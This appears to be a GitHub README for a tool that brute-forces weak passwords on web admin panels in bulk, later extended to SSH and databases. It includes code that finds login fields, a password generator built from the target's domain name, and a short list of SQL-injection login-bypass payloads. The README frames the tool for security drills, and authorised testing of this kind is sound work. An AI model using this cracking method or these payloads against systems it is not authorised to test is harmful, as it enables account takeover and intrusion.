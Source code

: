 # Weak_pwd_crack_master
  A universal web weak password cracking script aimed at batch detecting management backends without verification codes.
  With the increase of attack and defense drills and some vulnerability mining tasks, it is sometimes necessary to quickly detect the security of some website 
  backend in large quantities, especially to test some weak management passwords. Therefore, this tool is available - a universal web weak password cracking script
# Change log
[2023-01-05] We have dealt with the abnormal situations that occurred during the detection, but there are still many problems  

[2023-01-03] We have usedmultiple threads and conducted a comprehensive summary of login situations for different websites
# Function principle

1.Identify blasting parameters  

  We determine the location of username and password parameters based on extracting keywords such as user pass from the form  
```
if parameter:
  if not user_key:
    for z in [ 'user', 'name','zhanghao', 'yonghu', 'email', 'account']:
      if z in parameter.lower():
        value = '{user_name}'
        user_key = parameter
        ok_flag = 1
        break
      if not ok_flag:
        for y in ['pass', 'pw', 'mima']:
          if y in parameter.lower():
            value = '{pass_word}'
            pass_key = parameter
            ok_flag = 1
            break
```

2.The way to determine successful login  

  This can be said to be the most troublesome issue 
  
  If it's okay for a management system, just find the pattern and determine if there are any features of successful login
  However, as a universal blasting script, there are various websites in the world, and it is impossible to find features one by one or to perform   
  regular matching one by one.  
  
  Finally, we adopt the following matching method
  
3.Determine whether to dynamically return a value and obtain Error Length  

  First, let's send two passwords that are definitely incorrect, such as length_ Test.Then,we obtain two return values and compare them.  
  If the values are different twice, it indicates that the management system returns different lengths for the same data packet. 
  
  At this point, the script cannot determine and exits the explosion.If it is the same, record this value as the basis for judgment.  
  
  However, in practice, a request will be made first, as it has been found that some management systems add tags to the response header during the first login. 
  Removing this item may result in misjudgment.  
  
4.Determine if the key names of the username and password exist on the redirected pag  

  There is no need to explain this too much. If it exists, it indicates that the login was unsuccessful and the user has returned to the login page.
  
  Because during the testing, it was found that some CMS would pop up a login failure box on the login page, directly determining whether it is equal is not accurate.
  
  There is another way to calculate page hashes and determine the similarity between the two.
  
  But we don't think it's necessary because there are different systems that are difficult to use a unified threshold for judgment, so we finally gave it up.
  
5.Recheck

  In order to improve accuracy and prevent false positives, we have added a recheck link.
  
  That is, send the password of the cracked account to the client again, and compare it with the error sent again_ Length comparison
  If different, it is the correct password.
  
  The previous error was not used here_ Length is because in actual testing, it was found that the length value of the returned packet may change due to WAF or 
  other factors.  
  
# Expansion module  

1.Dynamic Dictionary

  The code is as follows：
  ```
public class DictionaryGenerator {
 public List<String> genDynamDic(String url) {
 List<String> dynamPassDic = new ArrayList<>();
 List<String> tmpDic = new ArrayList<>();
 List<String> suffixDic = Arrays.asList("", "123", "888", "666", "123456");
 String[] list1 = url.split("/");
 String host = list1[2].split(":")[0];
 Pattern compileIp = Pattern.compile("^(1\\d{2}|2[0-4]\\d|25[0-5]|[1-9]\\d|\\d)\\.(1\\d{2}|2[0-4]\\d|25[0-5]|[1-9]\\d|\\d)\\.(1\\d{2}|2[0-4]\\d|25[0-5]|[1-9]\\d|\\d)\\.(1\\d{2}|2[0-4]\\d|25[0-5]|[1-9]\\d|\\d)$");
 boolean checkIp = compileIp.matcher(host).matches();
 if (!checkIp) {
 String[] list2 = host.split("\\.");
 int i = list2.length;
 for (int u = 0; u < i; u++) {
 String[] list3 = Arrays.copyOfRange(list2, u, i);
 String part = String.join(".", list3);
 if (part.length() < 5) {
 continue;
 }
 dynamPassDic.add(part);
 }
 for (int u = 0; u < i; u++) {
 String list3 = list2[u];
 if (list3.length() < 5) {
 continue;
 }
 tmpDic.add(list3);
 }
 for (String i : tmpDic) {
 for (String suffix : suffixDic) {
 String u = i + suffix;
 dynamPassDic.add(u);
 }
 }
 return dynamPassDic;
 } else {
 return new ArrayList<>();
 }
 }
}
```

If the domain name is  
  ```webcrack.yzddmr6.com```  
Then the following dynamic dictionary list will be generated.

2.Universal password detection

In addition to weak passwords, a large part of the vulnerabilities in the backend are due to universal passwords  
Some commonly used payloads have also been added to weak_pwd_crack_master
```
admin' or 'a'='a
'or'='or'
admin' or '1'='1' or 1=1
')or('a'='a
'or 1=1--
```

# Update

We have optimized it as follows:

·Firstly, we have added the following three parts to the original detection of weak passwords in the web front-end:

Weak password detection for SSH services, weak password detection for databases, and weak password detection for local hosts. Make this weak password detection tool more comprehensive and powerful.

·Secondly, we have optimized the original code to a certain extent, making it more efficient and adding logging functionality.

·Finally, we optimized the existing GUI to make it smoother.
